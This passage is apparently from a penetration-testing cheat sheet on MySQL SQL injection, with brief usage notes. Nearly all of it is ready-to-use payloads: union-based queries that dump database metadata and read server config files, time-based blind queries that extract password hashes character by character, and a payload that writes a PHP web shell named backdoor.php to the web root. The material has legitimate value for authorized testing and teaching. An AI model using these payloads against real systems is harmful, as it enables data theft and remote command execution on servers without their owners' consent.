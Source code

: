 **Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 

' AND IF(version() LIKE '5%', sleep(2), sleep(0))-- 
```

Use the time-based SQLi when you are not able to see the results.

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}/*echo "<pre>{$o}</pre>";unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/ ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the current database user must have a write permission.
